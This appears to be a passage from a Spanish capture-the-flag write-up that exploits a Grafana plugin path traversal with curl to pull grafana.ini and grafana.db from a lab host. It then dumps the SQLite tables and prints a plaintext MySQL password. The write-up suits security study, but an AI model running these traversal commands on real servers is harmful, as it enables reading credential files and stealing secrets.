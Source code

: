 ```bash
```

Sabiendo esto, debemos tener en cuenta que grafana tiene varios archivos interesantes:

- grafana.db -> base de datos sqlite de configuración de  grafana.
- grafana.ini -> Archivo de configuración de grafana.


Nos vamos a bajar esos archivos. La ruta de los archivos de configuración suele ser /etc/grafana y la del archivo db suele ser "/var/lib/grafana/grafana.db".

```bash
❯ curl -s  "http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini" --path-as-is --output grafana.ini

❯ curl -s  "http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" --path-as-is --output grafana.db
```


El archivo grafana.ini no tiene nada interesante, vamos a enumerar el archivo de sqlite3. Podemos ver varias tablas.

```bash
sqlite\> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token 
```

No podemos romper la contraseña del usuario Administrador, pero si miramos la tabla "data_source" tiene la siguiente información.

```bash
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-03-01 18:31:18|0|{}|1|uKewFgM4z
```

